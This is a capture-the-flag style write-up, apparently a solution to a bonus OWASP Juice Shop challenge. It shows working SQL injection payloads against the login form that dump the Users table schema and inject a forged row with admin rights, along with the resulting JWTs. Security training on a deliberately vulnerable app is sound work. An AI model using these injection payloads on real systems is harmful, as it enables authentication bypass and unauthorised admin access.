 # Bonus Challenge: Generating a JWT Token for a Non-Existent User With Admin Privileges
*(It's not listed in the scoreboard as of 2019/08/21)*

*Update: Looks like a portion of this challenge [will get added](https://github.com/bkimminich/juice-shop/issues/1194#issuecomment-523656805) to the actual application!*

## Description
I was attempting to complete the [Admin Registration (L3)](../../level-3#admin-registration) challenge, and while attempting that, I discovered a way to generate a JSON Web Token (JWT) for a non-existent user that had admin privileges.

## How?
### 1. Starting with SQL Injection
I was experimenting with SQL injection at the login page of the OWASP Juice Shop, and was looking at trying to log in with my user, but instead of matching my user info that was in the database, I would copy most of that, and change the `isAdmin` flag. The only way I could think to do this was using a `UNION` or `UNION ALL` in my SQL injection.

Early on, I ran into a lot of issues with the columns from the `UNION` not matching up, like below. I don't know the schema at this point (and I'm intentionally not looking it up because I'm trying to emulate an attacker).

<img src="images/nonexistent-user-admin-token-sql-union-error.png">

### 2. Getting the User Table Schema
I found that there was 2 ways get the schema. One of the explicitly tells you the schema, and the other you can infer the schema from.

#### 2a. Explicit: Get the Schema via SQL Injection
So, at this point, I needed to find how to get the schema. The way I initially did it was looking at if I could get the endpoint to output the schema as one of the fields. Since the errors I got were from SQLite, a few quick google searches told me how to [get the columns for a table](https://stackoverflow.com/a/54962853), and [concat them into a single value](https://stackoverflow.com/a/3926380). So, I started with this:

```
' UNION ALL SELECT * FROM (SELECT (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('Users')), null)--
```

For the one above, I got the column mismatch again, but the syntax was valid and no issues with functions not existing. I kept adding `null`s one at time to the end of it until that didn't happen. Eventually, I got up to 11 `null`s (in addition to the subquery `SELECT`).

**Initial Injection Payload - Column Names**
```
' UNION ALL SELECT * FROM (SELECT (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('Users')), null, null, null, null, null, null, null, null, null, null, null)--
```

Once I clicked the submit button, I got presenting with a 2FA page. Progress!

*Note that my user does NOT have 2FA attached to it, but it brings me to the page anyways.*

<img src="images/nonexistent-user-admin-token-2fa.png">

From there I looked at the token that I got back in the requests, and it was another JWT token.

**2FA JWT Token - Column Names**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJpZCx1c2VybmFtZSxlbWFpbCxwYXNzd29yZCxpc0FkbWluLGxhc3RMb2dpbklwLHByb2ZpbGVJbWFnZSx0b3RwU2VjcmV0LGlzQWN0aXZlLGNyZWF0ZWRBdCx1cGRhdGVkQXQsZGVsZXRlZEF0IiwidHlwZSI6InBhc3N3b3JkX3ZhbGlkX25lZWRzX3NlY29uZF9mYWN0b3JfdG9rZW4iLCJpYXQiOjE1NjU5Njk1ODEsImV4cCI6MTU2NTk4NzU4MX0.FSDMBOs2C20Eqb-c_PghsbQ7dUiHpwQe5qrLsllp2W41Wg6MVpFXPTMY0gB0HGFI4Deeun6Iw7B5a2yy5Pb339wXfZLCHisXpmfS08i2pxsd_N70wvzqUZtrjALvardSB3_FCh9St1c5oAQOuqlq7EDGvFymFtiPdNz8-4DR6BE
```

Once I decoded it, I found the schema below.

<img src="images/nonexistent-user-admin-token-column-name-token.png">

Neat. Though I realized that the schema it looked EXACTLY like the user data in the a normal JWT token from this application, which brings me to the other way to figure out the schema.

#### 2b. Inference: Look at a Normal JWT Token
In the [Password Strength (L2)](../../level-2#password-strength) challenge, I found the admin account's password in the JWT token, and this is what the JWT token looks like when it is decoded.

**Normal JWT Token for a Logged-In User**
<img src="../../level-2/images/2-admin-password-jwt.png">

Hey, it's literally all of the table fields as the SQL injection way in 2a. Let's move on.

### 3. Generating the Non-Existent User's Token with Admin Privileges

So, at this point, I took the fields in the schema list, and filled them **in the same order** so the `UNION` would match up with the column list from `SELECT * FROM Users` login SQL query. You also need to switch `true` and `false` values to 1 and 0, respectively (but maybe that's a relic from my days using MSSQL). After you update the `isAdmin` value to `1` (or `true`), it should look like this:

**Injection Payload - Generate Admin Token**
```
' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'someone@something.io' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '172.16.189.1' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

And here is the SQL query that the server will run (formatted and prettified)
```sql
SELECT * 
FROM  users 
WHERE  email = '' 

UNION

SELECT * 
FROM ( 
  SELECT 15                          AS 'id', 
  ''                                 AS 'username', 
  'someone@something.io'             AS 'email', 
  'b4448762fc877c2d57b2c9723118d264' AS 'password', 
  1                                  AS 'isAdmin',
  '172.16.189.1'                     AS 'lastLoginIp' , 
  'default.svg'                      AS 'profileImage', 
  ''                                 AS 'totpSecret', 
  1                                  AS 'isActive', 
  '2019-08-16 14:14:41.644 +00:00'   AS 'createdAt', 
  '2019-08-16 14:33:41.930 +00:00'   AS 'updatedAt', 
  NULL                               AS 'deletedAt'
)
--AND password = 'b4448762fc877c2d57b2c9723118d264' AND deletedAt IS NULL 
```

My injection payload worked! I got to the main search page and I was logged in as my *faux* user. My user did exist at this point, but this all works even if the user does not exist. I took at look at my JWT token in my cookie / application settings.

**Non-Existent User JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJzb21lb25lQHNvbWV0aGluZy5pbyIsInBhc3N3b3JkIjoiYjQ0NDg3NjJmYzg3N2MyZDU3YjJjOTcyMzExOGQyNjQiLCJpc0FkbWluIjp0cnVlLCJsYXN0TG9naW5JcCI6IjE3Mi4xNi4xODkuMSIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDE5LTA4LTE2IDE0OjE0OjQxLjY0NCArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE5LTA4LTE2IDE0OjMzOjQxLjkzMCArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1NjU5NzE5NDcsImV4cCI6MTU2NTk4OTk0N30.OhfHXsnCteRB-LSuTxucIeV59paLJs7gzjqi5DMm0-84UIuvmIXdzChDsLGsfgzYXSxkTwtyzWpla8z-xAsxVnKLiNUr7noQde6yklK8Pw1YXLKFcz2Olga7Yra5ezfIWv3-OxKTUxZgdQsoi7kdOl2wWtH8bJxUXsGUTStkre0
```

Once you decode that token, it looks like this:

<img src="images/nonexistent-user-admin-token-decoded.png">

Boom! I'm an admin that doesn't exist! To finish this off, I went to the administration page to find out if this worked, and it does! Yay!

<img src="images/nonexistent-user-admin-token-admin-page.png">

### Differences from the Current SQL Injection Challenges

All of the challenges want you to log in as an existing user (or it mentions NOT to use SQL injection). It also makes you use some more complex SQL injection using `UNION` and makes for an interesting challenge that differs from the other SQL injection challenges. Also makes you try to figure out the User table schema, either by applying more injection or trying to infer it.

### Differences from the Current JWT Challenges

There are 2 different JWT challenges. They both mention that the token should be unsigned or almost properly signed, but I actually have a properly signed JWT token now. Hmm... Let's try using this method and see if we complete the challenges.

> **JWT Issues Tier 1 (T5)**
>
> Forge an essentially unsigned JWT token that impersonates the (non-existing) user jwtn3d@juice-sh.op.

```
' UNION SELECT * FROM (SELECT 1001 as 'id', '' as 'username', 'jwtn3d@juice-sh.op' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '0.0.0.0' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

**jwtn3d@juice-sh.op JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTAwMSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6Imp3dG4zZEBqdWljZS1zaC5vcCIsInBhc3N3b3JkIjoiYjQ0NDg3NjJmYzg3N2MyZDU3YjJjOTcyMzExOGQyNjQiLCJpc0FkbWluIjp0cnVlLCJsYXN0TG9naW5JcCI6IjAuMC4wLjAiLCJwcm9maWxlSW1hZ2UiOiJkZWZhdWx0LnN2ZyIsInRvdHBTZWNyZXQiOiIiLCJpc0FjdGl2ZSI6dHJ1ZSwiY3JlYXRlZEF0IjoiMjAxOS0wOC0xNiAxNDoxNDo0MS42NDQgKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAxOS0wOC0xNiAxNDozMzo0MS45MzAgKzAwOjAwIiwiZGVsZXRlZEF0IjpudWxsfSwiaWF0IjoxNTY1OTc3NTEzLCJleHAiOjE1NjU5OTU1MTN9.yIlgAEaeL7sgF-rjoU1wTmZMmBpz1Zr2KIl5wbkcDCkRhi-Tc9H-FNBocaOMGYpIwmoMUfLpCaWxlC_qcDZLlvGRArdS0-svgOKwUujxLTrJhbqQIYsTmEkTMruNFYhRgrCijFhnYsOyqqWDSlW_n1NyRUYtMgtAMIezVl4UAuE
```
Challenge not complete even with the above token!

> **JWT Issues Tier 2 (T6)**
>
> Forge an almost properly RSA-signed JWT token that impersonates the (non-existing) user rsa_lord@juice-sh.op.

**Injection Payload**
```
' UNION SELECT * FROM (SELECT 999 as 'id', '' as 'username', 'rsa_lord@juice-sh.op' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '0.0.0.0' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

**rsa_lord@juice-sh.op JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6OTk5LCJ1c2VybmFtZSI6IiIsImVtYWlsIjoicnNhX2xvcmRAanVpY2Utc2gub3AiLCJwYXNzd29yZCI6ImI0NDQ4NzYyZmM4NzdjMmQ1N2IyYzk3MjMxMThkMjY0IiwiaXNBZG1pbiI6dHJ1ZSwibGFzdExvZ2luSXAiOiIwLjAuMC4wIiwicHJvZmlsZUltYWdlIjoiZGVmYXVsdC5zdmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMTktMDgtMTYgMTQ6MTQ6NDEuNjQ0ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTktMDgtMTYgMTQ6MzM6NDEuOTMwICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTU2NTk3NzI3MywiZXhwIjoxNTY1OTk1MjczfQ.uOxQ5gPiTT-MCmGsgOE0NodOG77UqSRizHbsD-tvjt8X73V8SDkXfxFRQ4kjf3O1iyzK2BmWsrMk66GILz7HT5nNvEhdGHT9nTA5nBjXncCEy13xnNAwfi8qyJO8SMLCyCnMrx4RtC0X3VbY6kR2aJ7F5FL6q8V6Qp_4SO2SLeo
```
Challenge not complete even with the above token!

So, its doesn't match either of these challenges, which makes sense. Yay! I found a way to get a legit token for a non-existent user. 

